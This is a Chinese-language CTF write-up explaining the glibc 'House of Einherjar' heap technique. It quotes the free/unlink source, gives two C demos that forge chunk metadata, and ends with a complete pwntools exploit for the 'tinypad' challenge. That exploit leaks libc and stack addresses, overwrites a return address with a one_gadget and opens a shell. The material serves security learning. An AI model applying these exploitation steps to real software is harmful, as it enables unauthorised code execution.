



## House of Einherjar
原理
free中后向合并的操作（unlink），如果我们可以同时控制一个 chunk prev_size 与 PREV_INUSE 字段，那么我们就可以将新的 chunk 指向几乎任何位置。
free时合并的操作
static void
_int_free (mstate av, mchunkptr p, int have_lock)
{
...
/* consolidate backward */
if (!prev_inuse(p)) {
prevsize = prev_size(p);
size += prevsize;
p = chunk_at_offset(p, -((long) prevsize));
unlink(av, p, bck, fwd);
}
...
}
unlink
#define unlink(AV, P, BK, FD) { \
if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0)) \
malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV); \
FD = P->fd; \
BK = P->bk; \
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) \
malloc_printerr (check_action, "corrupted double-linked list", P, AV); \
else { \
FD->bk = BK; \
BK->fd = FD; \
if (!in_smallbin_range (P->size) \
&& __builtin_expect (P->fd_nextsize != NULL, 0)) { \
if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0) \
|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0)) \
malloc_printerr (check_action, \
"corrupted double-linked list (not small)", \
P, AV); \
if (FD->fd_nextsize == NULL) { \
if (P->fd_nextsize == P) \
FD->fd_nextsize = FD->bk_nextsize = FD; \
else { \
FD->fd_nextsize = P->fd_nextsize; \
FD->bk_nextsize = P->bk_nextsize; \
P->fd_nextsize->bk_nextsize = FD; \
P->bk_nextsize->fd_nextsize = FD; \
} \
} else { \
P->fd_nextsize->bk_nextsize = P->bk_nextsize; \
P->bk_nextsize->fd_nextsize = P->fd_nextsize; \
} \
} \
} \
}
演示程序1
合并放入unsorted bin
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
long long int *s0 = (long long int *)malloc(0x200);
long long int *s1 = (long long int *)malloc(0x18);
long long int *s2 = (long long int *)malloc(0xf0);
long long int *s3 = (long long int *)malloc(0x20);
s0[0] = 0;
s0[1] = 0x81;
s0[2] = (long long int)s0;
s0[3] = (long long int)s0;
s0[16] = 0x80;
s1[2] = 0x220;
s2[-1] = 0x100;
free(s2);
return 0;
}
free(s2)前各个堆上的伪造情况

结果s0（部分）,s1,s2合并放入unsorted bin中

演示程序2
合并融入top chunk（top chunk地址变成栈上地址，堆上也依然ok）
这里s1大小属于large bin范围也可以
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
long long int stack_chunk[6];
long long int *s0 = (long long int *)malloc(0x100);
long long int *s1 = (long long int *)malloc(0x200);
s1[-2] = (long long int)&s1[-2]-(long long int)&stack_chunk;
s1[-1] = 0x210;
stack_chunk[0] = 0;
stack_chunk[1] = s1[-2];
stack_chunk[2] = (long long int)&stack_chunk;
stack_chunk[3] = (long long int)&stack_chunk;
stack_chunk[4] = (long long int)&stack_chunk;
stack_chunk[5] = (long long int)&stack_chunk;
free(s1);
malloc(0x100);
return 0;
}
这里对于stack_chunk->fd_nextsize和stack_chunk->bk_nextsize也进行了伪造，因为unlink了一个大堆块，不在small bin的大小之内了，有额外检查。
#define unlink(AV, P, BK, FD) { \
··························· \
if (!in_smallbin_range (P->size) \
&& __builtin_expect (P->fd_nextsize != NULL, 0)) { \
if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0) \
|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0)) \
malloc_printerr (check_action, \
"corrupted double-linked list (not small)", \
P, AV); \
·························· \
}
free前

free后

例题
只能申请4个堆块，但是有uaf信息泄露很方便。
这里仅记录构造过程中的问题把，大致思路就是利用house of einherjar把unsorted bin放到程序数据段上去，最后通过直接修改tinypad的几个指针来任意写。
问题主要就是把数据段地址放到unsorted bin上后malloc能够成功，这里要有两个地方的伪造
1.假如unsorted bin里放的还是堆附近地址的块，那确实很方便直接申请也不会出事，但是由于现在数据段和堆段地址相差比较大，但是malloc的时候有检查。这里假如size过大>av->system_mem（0x21000）就会crash，所以这里伪造成比较小的一个值。
Unsorted bin
| 检查目标 | 检查条件 | 报错信息 | ||
|---|---|---|---|---|
| unsorted bin chunk 大小 | chunksize_nomask (victim) <= 2 * SIZE_SZ \ | \ | chunksize_nomask (victim) > av->system_mem | malloc(): memory corruption |
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
|| __builtin_expect (victim->size > av->system_mem, 0))
malloc_printerr (check_action, "malloc(): memory corruption",
chunk2mem (victim), av);

2.unlink的时候的对大小的检查，由于上面我们修改了size，所以对下一个chunk的prev_size也需要伪造。
unlink
| 检查目标 | 检查条件 | 报错信息 |
|---|---|---|
| size vs prev_size | chunksize(P) != prev_size (next_chunk(P)) | corrupted size vs. prev_size |
最终选择的伪造(注意这里连向unsorted bin的双链也不能断)

最终exp
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
p = process('./tinypad')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def pr(a,addr):
log.success(a+'===>'+hex(addr))
def add(size, content='a'):
p.recvuntil('(CMD)>>> ')
p.sendline('a')
p.recvuntil('(SIZE)>>> ')
p.sendline(str(size))
p.recvuntil('(CONTENT)>>> ')
p.sendline(content)
def edit(idx, content):
p.recvuntil('(CMD)>>> ')
p.sendline('e')
p.recvuntil('(INDEX)>>> ')
p.sendline(str(idx))
p.recvuntil('(CONTENT)>>> ')
p.sendline(content)
p.recvuntil('Is it OK?\n')
p.sendline('Y')
def delete(idx):
p.recvuntil('(CMD)>>> ')
p.sendline('d')
p.recvuntil('(INDEX)>>> ')
p.sendline(str(idx))
add(0x100)
add(0x100)
add(0x100)
add(0x100)
delete(3)
delete(1)
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
heapbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) -0x220
p.recvuntil('INDEX: 3')
p.recvuntil('CONTENT: ')
libcbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) - (0x7fe1dd553b78-0x7fe1dd18f000)
environ = libc.sym['environ']+libcbase
pr('heapbase',heapbase)
pr('libcbase',libcbase)
add(0x100)
add(0x100)
delete(4)
delete(1)
delete(2)
delete(3)
#================================empty now =================================
add(0x100,'a'*0x100)
edit(1,'a'*0x30+p64(0)+p64(0x41)+p64(0x602070)*2+'\x00'*0x20+p64(0x40))
delete(1)
add(0x10) #1
add(0xf0) #2
add(0x10) #3
add(0x100,'a'*0x100) #4
delete(1)
add(0x18,'a'*0x10+p64(heapbase+0x20-0x602070)) #1
delete(2)
edit(4,'a'*0x30+p64(0)+p64(0x101)+p64(libcbase+(0x00007f36556adb78-0x00007f36552e9000))*2)
add(0xf0,'a'*0xc0+p64(0x100)+p64(environ)+p64(0x100)+p64(0x602148))
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
stackleak= u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
target = stackleak + (0x7ffefd8d96e8-0x7ffefd8d97d8)
pr('target',target)
pr('stackleak',stackleak)
edit(2,p64(target))
edit(1,p64(libcbase+0x45226))
p.recvuntil('(CMD)>>> ')
p.sendline('Q')
#gdb.attach(p)
p.interactive()